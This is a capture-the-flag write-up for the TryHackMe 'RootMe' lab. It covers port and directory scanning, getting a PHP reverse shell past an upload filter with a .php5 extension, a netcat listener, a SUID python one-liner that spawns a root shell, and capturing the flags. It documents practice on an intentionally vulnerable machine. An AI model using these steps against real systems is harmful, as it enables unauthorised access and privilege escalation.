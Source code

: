 ```yaml
---
layout: default
title: "TryHackMe - RootMe Writeup"
permalink: /writeups/tryhackme/rootme
---
```


![TryHackMe - RootMe (Easy)](images/RootMe.png)

**Date:** 11/11/2022\
**Author:** [acfirthh](https://github.com/acfirthh)

**Machine Name:** RootMe\
**Difficulty:** Easy\
**Link to Machine:** [TryHackMe - RootMe (Easy)](https://tryhackme.com/room/rrootme) 

## NMAP Scan
```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-11 16:53 GMT
Nmap scan report for 10.10.69.147
Host is up (0.20s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the NMAP scan, I see that there is a website hosted on port 80. Browsing to the website, it seems to just be a simple page saying **Can you root me?**.

## Gobuster Scan
```
/index.php
/uploads
/css
/js
/panel
```
**/uploads** and **/panel** look interesting.
- **/uploads** is an empty directory
- **/panel** has a file upload form

I'm guessing that files that get uploaded can be accessed in the **/uploads** directory. I try to upload a simple text file to see if this is true, and it is.

## Foothold
Now I know that files that are uploaded can be accessed directly from te **/uploads** directory, and I know that the webserver is running on PHP (as the index page is named **index.php**), I will try upload a **.php** file to get code execution.

My first attempt at uploading a PHP file was blocked as files with a **.php** file extensions are not allowed. So I open up BurpSuite Intruder to test different file extensions to see which one works. I find that **.php5** works. Now I know that I can upload a **.php5** file, it's time to upload a PHP reverse shell.

I like to use the PHP reverse shell made by `pentestmonkey` on GitHub. You can find it [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

(Just make sure to change the IP and Port in the reverse shell, to your listener IP and Port, before saving it as a **.php5** file)

I then started a listener `nc -nvlp <port>`

It's time to upload the reverse shell and then activate it by browsing to the file in **/uploads**.

Now I have a shell on the machine and stabilize it using `python3 -c 'import pty;pty.spawn("/bin/bash")'` and I can see that I have a shell as `www-data`.

I find the user flag in `/var/www`. Now I have the user flag, it's time to become root!

## Privilege Escalation (root)
Running the command `find / -perm -4000 2>/dev/null`, to find SUID binaries I have access to, returns a long list of them. But one of them stands out above the rest `/usr/bin/python`. Python is not usually a SUID binary you would see on Linux machines. I can abuse this using a technique that can be found on [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid)

The command: `./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

Success! I run the command and it spawns a root shell!

I change directory to **/root** and find the root flag to complete the CTF.
